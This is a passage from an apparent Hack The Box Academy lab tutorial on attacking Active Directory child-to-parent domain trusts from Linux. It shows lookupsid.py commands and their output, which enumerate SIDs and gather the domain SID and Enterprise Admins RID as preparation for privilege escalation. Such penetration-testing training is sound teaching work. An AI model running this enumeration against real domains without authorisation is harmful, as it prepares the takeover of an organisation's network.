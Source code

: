```shell-session
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

We can filter out the noise by piping the command output to grep and looking for just the domain SID.

#### Looking for the Domain SID

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
maiamor@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5 and grab the domain `SID S-1-5-21-3842939050-3880317879-2865463114` and attach the RID of the Enterprise Admins group. [Here](https://adsecurity.org/?p=1001) is a handy list of well-known SIDs.

#### Grabbing the Domain SID & Attaching to Enterprise Admin's RID

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
maiamor@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```
